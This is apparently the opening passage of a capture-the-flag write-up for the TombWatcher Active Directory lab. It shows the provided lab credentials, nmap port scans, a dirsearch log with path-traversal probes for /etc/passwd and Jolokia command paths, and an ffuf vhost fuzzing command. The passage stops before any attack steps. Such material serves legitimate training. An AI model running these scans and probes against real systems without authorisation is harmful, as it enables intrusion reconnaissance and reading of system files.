# Intro

Here we are again another Windows based machine for the season.



This time we are provided a valid set of credentials (henry: H3nry_987TGV!) as entry point which might means that this will be purely AD based with little to none WEB attacks? Just early speculation...

My wild guessing is that this has something to do with Tombstones? Aka the delete object in a Domain which are still saved in AD, but even here wild guessing.

# Initial enumeration

Now without further do i will start to enumerate all the running services on the TCP protocol accessible from the outside.

```
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-06-07 23:23:19Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-06-07T23:24:53+00:00; +4h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.tombwatcher.htb
| Issuer: commonName=tombwatcher-CA-1/domainComponent=tombwatcher
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2024-11-16T00:47:59
| Not valid after:  2025-11-16T00:47:59
| MD5:   a396:4dc0:104d:3c58:54e0:19e3:c2ae:0666
| SHA-1: fe5e:76e2:d528:4a33:8adf:c84e:92e3:900e:4234:ef9c
| -----BEGIN CERTIFICATE-----
| MIIF9jCCBN6gAwIBAgITLgAAAAKKaXDNTUaJbgAAAAAAAjANBgkqhkiG9w0BAQUF
| ADBNMRMwEQYKCZImiZPyLGQBGRYDaHRiMRswGQYKCZImiZPyLGQBGRYLdG9tYndh
| dGNoZXIxGTAXBgNVBAMTEHRvbWJ3YXRjaGVyLUNBLTEwHhcNMjQxMTE2MDA0NzU5
| WhcNMjUxMTE2MDA0NzU5WjAfMR0wGwYDVQQDExREQzAxLnRvbWJ3YXRjaGVyLmh0
| YjCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAPkYtnAM++hvs4LhMUtp
| OFViax2s+4hbaS74kU86hie1/cujdlofvn6NyNppESgx99WzjmU5wthsP7JdSwNV
| XHo02ygX6aC4eJ1tbPbe7jGmVlHU3XmJtZgkTAOqvt1LMym+MRNKUHgGyRlF0u68
| IQsHqBQY8KC+sS1hZ+tvbuUA0m8AApjGC+dnY9JXlvJ81QleTcd/b1EWnyxfD1YC
| ezbtz1O51DLMqMysjR/nKYqG7j/R0yz2eVeX+jYa7ZODy0i1KdDVOKSHSEcjM3wf
| hk1qJYZHD+2Agn4ZSfckt0X8ZYeKyIMQor/uDNbr9/YtD1WfT8ol1oXxw4gh4Ye8
| ar0CAwEAAaOCAvswggL3MC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBv
| AG4AdAByAG8AbABsAGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEw
| DgYDVR0PAQH/BAQDAgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCA
| MA4GCCqGSIb3DQMEAgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCG
| SAFlAwQBAjALBglghkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0O
| BBYEFAqc8X8Ifudq/MgoPpqm0L3u15pvMB8GA1UdIwQYMBaAFCrN5HoYF07vh90L
| HVZ5CkBQxvI6MIHPBgNVHR8EgccwgcQwgcGggb6ggbuGgbhsZGFwOi8vL0NOPXRv
| bWJ3YXRjaGVyLUNBLTEsQ049REMwMSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIw
| U2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz10b21id2F0
| Y2hlcixEQz1odGI/Y2VydGlmaWNhdGVSZXZvY2F0aW9uTGlzdD9iYXNlP29iamVj
| dENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50MIHGBggrBgEFBQcBAQSBuTCBtjCB
| swYIKwYBBQUHMAKGgaZsZGFwOi8vL0NOPXRvbWJ3YXRjaGVyLUNBLTEsQ049QUlB
| LENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZp
| Z3VyYXRpb24sREM9dG9tYndhdGNoZXIsREM9aHRiP2NBQ2VydGlmaWNhdGU/YmFz
| ZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MEAGA1UdEQQ5MDeg
| HwYJKwYBBAGCNxkBoBIEEPyy7selMmxPu2rkBnNzTmGCFERDMDEudG9tYndhdGNo
| ZXIuaHRiMA0GCSqGSIb3DQEBBQUAA4IBAQDHlJXOp+3AHiBFikML/iyk7hkdrrKd
| gm9JLQrXvxnZ5cJHCe7EM5lk65zLB6lyCORHCjoGgm9eLDiZ7cYWipDnCZIDaJdp
| Eqg4SWwTvbK+8fhzgJUKYpe1hokqIRLGYJPINNDI+tRyL74ZsDLCjjx0A4/lCIHK
| UVh/6C+B68hnPsCF3DZFpO80im6G311u4izntBMGqxIhnIAVYFlR2H+HlFS+J0zo
| x4qtaXNNmuaDW26OOtTf3FgylWUe5ji5MIq5UEupdOAI/xdwWV5M4gWFWZwNpSXG
| Xq2engKcrfy4900Q10HektLKjyuhvSdWuyDwGW1L34ZljqsDsqV1S0SE
|_-----END CERTIFICATE-----
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-06-07T23:24:53+00:00; +4h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.tombwatcher.htb
| Issuer: commonName=tombwatcher-CA-1/domainComponent=tombwatcher
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2024-11-16T00:47:59
| Not valid after:  2025-11-16T00:47:59
| MD5:   a396:4dc0:104d:3c58:54e0:19e3:c2ae:0666
| SHA-1: fe5e:76e2:d528:4a33:8adf:c84e:92e3:900e:4234:ef9c
| -----BEGIN CERTIFICATE-----
| MIIF9jCCBN6gAwIBAgITLgAAAAKKaXDNTUaJbgAAAAAAAjANBgkqhkiG9w0BAQUF
| ADBNMRMwEQYKCZImiZPyLGQBGRYDaHRiMRswGQYKCZImiZPyLGQBGRYLdG9tYndh
| dGNoZXIxGTAXBgNVBAMTEHRvbWJ3YXRjaGVyLUNBLTEwHhcNMjQxMTE2MDA0NzU5
| WhcNMjUxMTE2MDA0NzU5WjAfMR0wGwYDVQQDExREQzAxLnRvbWJ3YXRjaGVyLmh0
| YjCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAPkYtnAM++hvs4LhMUtp
| OFViax2s+4hbaS74kU86hie1/cujdlofvn6NyNppESgx99WzjmU5wthsP7JdSwNV
| XHo02ygX6aC4eJ1tbPbe7jGmVlHU3XmJtZgkTAOqvt1LMym+MRNKUHgGyRlF0u68
| IQsHqBQY8KC+sS1hZ+tvbuUA0m8AApjGC+dnY9JXlvJ81QleTcd/b1EWnyxfD1YC
| ezbtz1O51DLMqMysjR/nKYqG7j/R0yz2eVeX+jYa7ZODy0i1KdDVOKSHSEcjM3wf
| hk1qJYZHD+2Agn4ZSfckt0X8ZYeKyIMQor/uDNbr9/YtD1WfT8ol1oXxw4gh4Ye8
| ar0CAwEAAaOCAvswggL3MC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBv
| AG4AdAByAG8AbABsAGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEw
| DgYDVR0PAQH/BAQDAgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCA
| MA4GCCqGSIb3DQMEAgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCG
| SAFlAwQBAjALBglghkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0O
| BBYEFAqc8X8Ifudq/MgoPpqm0L3u15pvMB8GA1UdIwQYMBaAFCrN5HoYF07vh90L
| HVZ5CkBQxvI6MIHPBgNVHR8EgccwgcQwgcGggb6ggbuGgbhsZGFwOi8vL0NOPXRv
| bWJ3YXRjaGVyLUNBLTEsQ049REMwMSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIw
| U2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz10b21id2F0
| Y2hlcixEQz1odGI/Y2VydGlmaWNhdGVSZXZvY2F0aW9uTGlzdD9iYXNlP29iamVj
| dENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50MIHGBggrBgEFBQcBAQSBuTCBtjCB
| swYIKwYBBQUHMAKGgaZsZGFwOi8vL0NOPXRvbWJ3YXRjaGVyLUNBLTEsQ049QUlB
| LENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZp
| Z3VyYXRpb24sREM9dG9tYndhdGNoZXIsREM9aHRiP2NBQ2VydGlmaWNhdGU/YmFz
| ZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MEAGA1UdEQQ5MDeg
| HwYJKwYBBAGCNxkBoBIEEPyy7selMmxPu2rkBnNzTmGCFERDMDEudG9tYndhdGNo
| ZXIuaHRiMA0GCSqGSIb3DQEBBQUAA4IBAQDHlJXOp+3AHiBFikML/iyk7hkdrrKd
| gm9JLQrXvxnZ5cJHCe7EM5lk65zLB6lyCORHCjoGgm9eLDiZ7cYWipDnCZIDaJdp
| Eqg4SWwTvbK+8fhzgJUKYpe1hokqIRLGYJPINNDI+tRyL74ZsDLCjjx0A4/lCIHK
| UVh/6C+B68hnPsCF3DZFpO80im6G311u4izntBMGqxIhnIAVYFlR2H+HlFS+J0zo
| x4qtaXNNmuaDW26OOtTf3FgylWUe5ji5MIq5UEupdOAI/xdwWV5M4gWFWZwNpSXG
| Xq2engKcrfy4900Q10HektLKjyuhvSdWuyDwGW1L34ZljqsDsqV1S0SE
|_-----END CERTIFICATE-----
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-06-07T23:24:53+00:00; +4h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.tombwatcher.htb
| Issuer: commonName=tombwatcher-CA-1/domainComponent=tombwatcher
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2024-11-16T00:47:59
| Not valid after:  2025-11-16T00:47:59
| MD5:   a396:4dc0:104d:3c58:54e0:19e3:c2ae:0666
| SHA-1: fe5e:76e2:d528:4a33:8adf:c84e:92e3:900e:4234:ef9c
| -----BEGIN CERTIFICATE-----
| MIIF9jCCBN6gAwIBAgITLgAAAAKKaXDNTUaJbgAAAAAAAjANBgkqhkiG9w0BAQUF
| ADBNMRMwEQYKCZImiZPyLGQBGRYDaHRiMRswGQYKCZImiZPyLGQBGRYLdG9tYndh
| dGNoZXIxGTAXBgNVBAMTEHRvbWJ3YXRjaGVyLUNBLTEwHhcNMjQxMTE2MDA0NzU5
| WhcNMjUxMTE2MDA0NzU5WjAfMR0wGwYDVQQDExREQzAxLnRvbWJ3YXRjaGVyLmh0
| YjCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAPkYtnAM++hvs4LhMUtp
| OFViax2s+4hbaS74kU86hie1/cujdlofvn6NyNppESgx99WzjmU5wthsP7JdSwNV
| XHo02ygX6aC4eJ1tbPbe7jGmVlHU3XmJtZgkTAOqvt1LMym+MRNKUHgGyRlF0u68
| IQsHqBQY8KC+sS1hZ+tvbuUA0m8AApjGC+dnY9JXlvJ81QleTcd/b1EWnyxfD1YC
| ezbtz1O51DLMqMysjR/nKYqG7j/R0yz2eVeX+jYa7ZODy0i1KdDVOKSHSEcjM3wf
| hk1qJYZHD+2Agn4ZSfckt0X8ZYeKyIMQor/uDNbr9/YtD1WfT8ol1oXxw4gh4Ye8
| ar0CAwEAAaOCAvswggL3MC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBv
| AG4AdAByAG8AbABsAGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEw
| DgYDVR0PAQH/BAQDAgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCA
| MA4GCCqGSIb3DQMEAgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCG
| SAFlAwQBAjALBglghkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0O
| BBYEFAqc8X8Ifudq/MgoPpqm0L3u15pvMB8GA1UdIwQYMBaAFCrN5HoYF07vh90L
| HVZ5CkBQxvI6MIHPBgNVHR8EgccwgcQwgcGggb6ggbuGgbhsZGFwOi8vL0NOPXRv
| bWJ3YXRjaGVyLUNBLTEsQ049REMwMSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIw
| U2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz10b21id2F0
| Y2hlcixEQz1odGI/Y2VydGlmaWNhdGVSZXZvY2F0aW9uTGlzdD9iYXNlP29iamVj
| dENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50MIHGBggrBgEFBQcBAQSBuTCBtjCB
| swYIKwYBBQUHMAKGgaZsZGFwOi8vL0NOPXRvbWJ3YXRjaGVyLUNBLTEsQ049QUlB
| LENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZp
| Z3VyYXRpb24sREM9dG9tYndhdGNoZXIsREM9aHRiP2NBQ2VydGlmaWNhdGU/YmFz
| ZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MEAGA1UdEQQ5MDeg
| HwYJKwYBBAGCNxkBoBIEEPyy7selMmxPu2rkBnNzTmGCFERDMDEudG9tYndhdGNo
| ZXIuaHRiMA0GCSqGSIb3DQEBBQUAA4IBAQDHlJXOp+3AHiBFikML/iyk7hkdrrKd
| gm9JLQrXvxnZ5cJHCe7EM5lk65zLB6lyCORHCjoGgm9eLDiZ7cYWipDnCZIDaJdp
| Eqg4SWwTvbK+8fhzgJUKYpe1hokqIRLGYJPINNDI+tRyL74ZsDLCjjx0A4/lCIHK
| UVh/6C+B68hnPsCF3DZFpO80im6G311u4izntBMGqxIhnIAVYFlR2H+HlFS+J0zo
| x4qtaXNNmuaDW26OOtTf3FgylWUe5ji5MIq5UEupdOAI/xdwWV5M4gWFWZwNpSXG
| Xq2engKcrfy4900Q10HektLKjyuhvSdWuyDwGW1L34ZljqsDsqV1S0SE
|_-----END CERTIFICATE-----
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.tombwatcher.htb
| Issuer: commonName=tombwatcher-CA-1/domainComponent=tombwatcher
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2024-11-16T00:47:59
| Not valid after:  2025-11-16T00:47:59
| MD5:   a396:4dc0:104d:3c58:54e0:19e3:c2ae:0666
| SHA-1: fe5e:76e2:d528:4a33:8adf:c84e:92e3:900e:4234:ef9c
| -----BEGIN CERTIFICATE-----
| MIIF9jCCBN6gAwIBAgITLgAAAAKKaXDNTUaJbgAAAAAAAjANBgkqhkiG9w0BAQUF
| ADBNMRMwEQYKCZImiZPyLGQBGRYDaHRiMRswGQYKCZImiZPyLGQBGRYLdG9tYndh
| dGNoZXIxGTAXBgNVBAMTEHRvbWJ3YXRjaGVyLUNBLTEwHhcNMjQxMTE2MDA0NzU5
| WhcNMjUxMTE2MDA0NzU5WjAfMR0wGwYDVQQDExREQzAxLnRvbWJ3YXRjaGVyLmh0
| YjCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAPkYtnAM++hvs4LhMUtp
| OFViax2s+4hbaS74kU86hie1/cujdlofvn6NyNppESgx99WzjmU5wthsP7JdSwNV
| XHo02ygX6aC4eJ1tbPbe7jGmVlHU3XmJtZgkTAOqvt1LMym+MRNKUHgGyRlF0u68
| IQsHqBQY8KC+sS1hZ+tvbuUA0m8AApjGC+dnY9JXlvJ81QleTcd/b1EWnyxfD1YC
| ezbtz1O51DLMqMysjR/nKYqG7j/R0yz2eVeX+jYa7ZODy0i1KdDVOKSHSEcjM3wf
| hk1qJYZHD+2Agn4ZSfckt0X8ZYeKyIMQor/uDNbr9/YtD1WfT8ol1oXxw4gh4Ye8
| ar0CAwEAAaOCAvswggL3MC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBv
| AG4AdAByAG8AbABsAGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEw
| DgYDVR0PAQH/BAQDAgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCA
| MA4GCCqGSIb3DQMEAgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCG
| SAFlAwQBAjALBglghkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0O
| BBYEFAqc8X8Ifudq/MgoPpqm0L3u15pvMB8GA1UdIwQYMBaAFCrN5HoYF07vh90L
| HVZ5CkBQxvI6MIHPBgNVHR8EgccwgcQwgcGggb6ggbuGgbhsZGFwOi8vL0NOPXRv
| bWJ3YXRjaGVyLUNBLTEsQ049REMwMSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIw
| U2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz10b21id2F0
| Y2hlcixEQz1odGI/Y2VydGlmaWNhdGVSZXZvY2F0aW9uTGlzdD9iYXNlP29iamVj
| dENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50MIHGBggrBgEFBQcBAQSBuTCBtjCB
| swYIKwYBBQUHMAKGgaZsZGFwOi8vL0NOPXRvbWJ3YXRjaGVyLUNBLTEsQ049QUlB
| LENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZp
| Z3VyYXRpb24sREM9dG9tYndhdGNoZXIsREM9aHRiP2NBQ2VydGlmaWNhdGU/YmFz
| ZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MEAGA1UdEQQ5MDeg
| HwYJKwYBBAGCNxkBoBIEEPyy7selMmxPu2rkBnNzTmGCFERDMDEudG9tYndhdGNo
| ZXIuaHRiMA0GCSqGSIb3DQEBBQUAA4IBAQDHlJXOp+3AHiBFikML/iyk7hkdrrKd
| gm9JLQrXvxnZ5cJHCe7EM5lk65zLB6lyCORHCjoGgm9eLDiZ7cYWipDnCZIDaJdp
| Eqg4SWwTvbK+8fhzgJUKYpe1hokqIRLGYJPINNDI+tRyL74ZsDLCjjx0A4/lCIHK
| UVh/6C+B68hnPsCF3DZFpO80im6G311u4izntBMGqxIhnIAVYFlR2H+HlFS+J0zo
| x4qtaXNNmuaDW26OOtTf3FgylWUe5ji5MIq5UEupdOAI/xdwWV5M4gWFWZwNpSXG
| Xq2engKcrfy4900Q10HektLKjyuhvSdWuyDwGW1L34ZljqsDsqV1S0SE
|_-----END CERTIFICATE-----
|_ssl-date: 2025-06-07T23:24:53+00:00; +4h00m00s from scanner time.
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49683/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49684/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49685/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49704/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49710/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49729/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.95%E=4%D=6/7%OT=53%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=68449205%P=x86_64-pc-linux-gnu)
SEQ(SP=102%GCD=1%ISR=10F%TI=I%II=I%SS=S%TS=U)
SEQ(SP=106%GCD=1%ISR=10A%TI=I%II=I%SS=S%TS=U)
OPS(O1=M577NW8NNS%O2=M577NW8NNS%O3=M577NW8%O4=M577NW8NNS%O5=M577NW8NNS%O6=M577NNS)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M577NW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

```

As I guessed it is about AD, but there is also a CA and a HTTP port which might be only the default IIS placeholder.

Now I will check also the first 1000 most important services running over UDP.

```
└─$ nmap -sU -F 10.10.11.72
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-07 21:31 CEST
Nmap scan report for 10.10.11.72
Host is up (0.030s latency).
Not shown: 97 open|filtered udp ports (no-response)
PORT    STATE SERVICE
53/udp  open  domain
88/udp  open  kerberos-sec
123/udp open  ntp

Nmap done: 1 IP address (1 host up) scanned in 3.99 seconds

```

Ok not much here, I will move onto singular services.

# HTTP

I want to determine if there is something other except the default ISS default page...



Seems like it is only the default page but can we see something strange with Dirsearch? Seems no:

```
─$ dirsearch -u "http://tombwatcher.htb/" --crawl
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/millycash/Downloads/Tombwatcher/reports/http_tombwatcher.htb/__25-06-07_21-35-00.txt

Target: http://tombwatcher.htb/

[21:35:00] Starting: 
[21:35:01] 403 -  312B  - /%2e%2e//google.com
[21:35:01] 403 -  312B  - /.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
[21:35:01] 404 -    2KB - /.ashx
[21:35:01] 404 -    2KB - /.asmx
[21:35:05] 403 -  312B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
[21:35:06] 404 -    2KB - /admin%20/
[21:35:06] 404 -    2KB - /admin.
[21:35:11] 404 -    2KB - /asset..
[21:35:11] 301 -  160B  - /aspnet_client  ->  http://tombwatcher.htb/aspnet_client/
[21:35:11] 403 -    1KB - /aspnet_client/
[21:35:12] 403 -  312B  - /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
[21:35:15] 400 -    3KB - /docpicker/internal_proxy/https/127.0.0.1:9043/ibm/console
[21:35:19] 404 -    2KB - /index.php.
[21:35:19] 404 -    2KB - /javax.faces.resource.../
[21:35:19] 400 -    3KB - /jolokia/exec/com.sun.management:type=DiagnosticCommand/compilerDirectivesAdd/!/etc!/passwd
[21:35:19] 400 -    3KB - /jolokia/exec/com.sun.management:type=DiagnosticCommand/vmLog/disable
[21:35:19] 400 -    3KB - /jolokia/exec/com.sun.management:type=DiagnosticCommand/jfrStart/filename=!/tmp!/foo
[21:35:19] 400 -    3KB - /jolokia/exec/com.sun.management:type=DiagnosticCommand/vmLog/output=!/tmp!/pwned
[21:35:19] 400 -    3KB - /jolokia/exec/com.sun.management:type=DiagnosticCommand/help/*
[21:35:19] 400 -    3KB - /jolokia/exec/com.sun.management:type=DiagnosticCommand/vmSystemProperties
[21:35:19] 400 -    3KB - /jolokia/read/java.lang:type=Memory/HeapMemoryUsage/used
[21:35:19] 400 -    3KB - /jolokia/search/*:j2eeType=J2EEServer,*
[21:35:19] 400 -    3KB - /jolokia/write/java.lang:type=Memory/Verbose/true
[21:35:19] 400 -    3KB - /jolokia/exec/com.sun.management:type=DiagnosticCommand/jvmtiAgentLoad/!/etc!/passwd
[21:35:19] 400 -    3KB - /jolokia/read/java.lang:type=*/HeapMemoryUsage
[21:35:19] 400 -    3KB - /jolokia/exec/java.lang:type=Memory/gc
[21:35:20] 404 -    2KB - /login.wdm%2e
[21:35:21] 404 -    2KB - /mcx/mcxservice.svc
[21:35:27] 404 -    2KB - /rating_over.
[21:35:27] 404 -    2KB - /reach/sip.svc
[21:35:28] 404 -    2KB - /service.asmx
[21:35:30] 404 -    2KB - /static..
[21:35:31] 403 -    2KB - /Trace.axd
[21:35:32] 404 -    2KB - /umbraco/webservices/codeEditorSave.asmx
[21:35:33] 404 -    2KB - /WEB-INF./
[21:35:34] 404 -    2KB - /WebResource.axd?d=LER8t9aS
[21:35:34] 404 -    2KB - /webticket/webticketservice.svc

Task Completed

```

Just to be on the safe side I will also check presence of possible hidden VHOSTS but again nothing came out!

```
└─# ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://tombwatcher.htb/ -H 'Host:FUZZ.tombwatcher.htb' -fl 32

